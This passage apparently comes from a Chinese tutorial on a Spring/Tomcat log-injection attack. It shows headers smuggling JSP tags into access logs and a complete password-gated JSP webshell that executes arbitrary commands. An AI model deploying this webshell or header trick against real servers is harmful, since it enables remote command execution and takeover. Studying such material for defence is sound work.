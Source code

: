 headers变量内容：

```json
headers = {
    "suffix":"%>//",
    "c1":"Runtime",
    "c2":"<%",
    "DNT":"1",
    "Content-Type":"application/x-www-form-urlencoded"
}
```

就是 ： 

%{c2}i           日志输出  http 内容   <% 

%{c1}i           日志输出  http 内容   Runtime

%{suffix}i     日志输出  http 内容   %>//



参数值：

```java
%{c2}i 
    if("j".equals(request.getParameter("pwd"))){ 
        java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); 
        int a = -1; 
        byte[] b = new byte[2048]; 
        while((a=in.read(b))!=-1){ 
            out.println(new String(b)); 
        } 
    } 
%{suffix}i
```

参数值模板传参对应上面的对应日志输出：

```java
<%
if("j".equals(request.getParameter("pwd"))){
  java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
  int a = -1;
  byte[] b = new byte[2048];
  while((a=in.read(b))!=-1){
    out.println(new String(b));
  }
}
%>//
```

这是一个JSP webshell



##### suffix参数
